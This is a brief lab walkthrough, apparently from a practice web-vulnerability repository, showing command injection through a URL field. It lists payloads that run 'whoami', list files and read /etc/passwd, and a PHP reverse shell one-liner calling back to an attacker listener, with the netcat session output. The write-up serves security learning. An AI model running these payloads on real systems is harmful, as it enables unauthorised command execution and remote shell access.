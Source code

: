 # Command Injection - Basics

- In the network analysis tab, I am proceeding to conduct command injection to assess the system's vulnerability.

![image](https://github.com/singhx-hub/WebVulnLab/tree/main/assets/126919241/66d01096-35bd-492c-a5c0-5ca6bc3e7e59)

- By utilizing the command `https://<IP>; whoami;echo http/`, I successfully fetched the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/42ce1d0d-aa3f-4cc5-a757-b87d896ae42e) ![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/64a847ce-b6ac-43b3-a6c6-3f829a8b585d)

- By passing the payload `https://<IP>; ls -lah;asd`, I managed to retrieve the files present in the system.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87e86829-1b7d-4467-960c-cee1cbc12415)
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/3a1906df-0d44-47e1-a778-986d6799425b)

- By utilizing the command `https://<IP>; cat /etc/passwd;asd` I successfully retrieved the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/432522ce-e64a-4196-b2ac-f3e809a1c4a4)

- By employing the PHP reverse shell `https://<Target IP>; php -r '$sock=fsockopen("LHOST",4242);exec("/bin/sh -i <&3 >&3 2>&3");';asd`, I was able to prompt a reverse shell.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87bcc2a3-2f00-4db3-9b73-af70191f6c2d)

#### Shell:

```bash
└─$ rlwrap nc -nvlp 4242
listening on [any] 4242 ...
connect to [xxx.xxx.xxx.186] from (UNKNOWN) [xxx.xx.0.4] 59348
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
